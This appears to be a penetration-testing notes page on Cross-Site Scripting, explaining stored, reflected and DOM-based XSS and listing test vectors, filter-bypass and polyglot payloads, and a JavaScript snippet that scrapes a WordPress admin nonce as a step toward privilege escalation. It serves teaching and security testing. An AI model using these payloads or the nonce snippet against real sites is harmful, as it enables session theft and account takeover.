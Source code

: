 # Theory

> [_Cross-Site Scripting_](https://owasp.org/www-community/attacks/xss/) (XSS) is a vulnerability that exploits a user's trust in a website by dynamically injecting content into the page rendered by the user's browser.

This takes advantage of improper *sanitization* (one of the most important features of a well defended web application). These are the weak points that an attacker can abuse by injecting and executing malicious code.

**Main Types**

*Stored*: the user input is stored on the website. It usually happens on user profiles, forums, chats and so on were the user content is permanently (or temporarily) stored. Attackers can inject malicious payloads and every user browsing the infected page will be affected. This is one of the most dangerous forms of XSS because exploitation requires no phishing and it can affect many users. XSS on pages that only the attacker's user has the right to browse (e.g. user settings page) are called self-XSS and are considered to have a close to 0 impact since it's theoretically can't affect other users.

*Reflected*: the user input is reflected but not stored. It usually happens on search forms, login pages and pages that reflect content for one response only. When the reflected vulnerable input is in the URI (`http://www.target.com/search.php?keyword=INJECTION`) attackers can craft a malicious URI and send it to the victims hoping they will browse it. This form of XSS usually requires phishing and attackers can be limited in the length of the malicious payload (cf. [this](https://serpstat.com/blog/how-long-should-be-the-page-url-length-for-seo/)).

*DOM-based*: while stored and reflected XSS attacks exploit vulnerabilities in the server-side code, a DOM-based XSS exploits client-side ones (e.g. JavaScript used to help dynamically render a page). DOM-based XSS usually affect user inputs that are temporarily reflected, just like reflected XSS attacks.

# Practice

## Finding Vectors

Find out input vectors that are either stored or reflected.

- URI parameters for reflected and DOM-based XSS
- Other user inputs in forums, chats, comments, posts, and other stored content for stored XSS
- HTTP headers like Cookies (and even User-Agents in some cases)

The following [website](https://transformations.jobertabma.nl/) ([GitHub project](https://github.com/jobertabma/transformations)) can help identify transformations applied to user inputs. This can help bypass filters and transformations to exploit XSS attacks.

The following payload is used for testing [SQL injections](https://www.thehacker.recipes/web/inputs/sqli), XSS (Cross-Site Scripting) and [SSTI (Server-Side Template Injection)](https://www.thehacker.recipes/web/inputs/ssti).

```bash
'"<svg/onload=prompt(5);>{{7*7}}
```

Tools like [XSStrike](https://github.com/s0md3v/XSStrike) (Python), [XSSer](https://github.com/epsylon/xsser) (Python), and [Dalfox](https://github.com/hahwul/dalfox) (Go) can also help in finding and exploiting XSS vulnerable input vectors by fuzzing them with unique payloads and then searching for unique patterns in the responses.

## Payloads

```javascript
# Standard XSS Payload
<script>alert('XSS');</script>

# Input tag escape
"><script>alert('XSS');</script>

# Escape textarea tag
</textarea><script>alert('XSS');</script>

# Escape Javascript code
';alert('XSS');//

# Bypass filters that strip out malicious words such like "script"
<sscriptcript>alert('XSS');</sscriptcript>

# Polygot payload (Can bypass multiple filters)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS)//>\x3e
```

## Privilege Escalation

Once we're able to store and execute Javascript on the website, we start looking to escalate privileges via *cookies*.

Websites use cookies to track [_state_](https://en.wikipedia.org/wiki/Session_\(computer_science\)) and information about users. Cookies can be set with several optional flags, including two that are particularly interesting to us as penetration testers: _Secure_ and _HttpOnly_.

The [_Secure_](https://en.wikipedia.org/wiki/Secure_cookie) flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

The [_HttpOnly_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies) flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

The nonce is a server-generated token that is included in each HTTP request to add randomness and prevent [_Cross-Site-Request-Forgery_](https://owasp.org/www-community/attacks/csrf) (CSRF) attacks.

### Gathering Nonces

```bash
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```



# Resources

[https://xss-game.appspot.com/](https://xss-game.appspot.com/)

[https://excess-xss.com/](https://excess-xss.com/)

[https://owasp.org/www-community/attacks/DOM_Based_XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt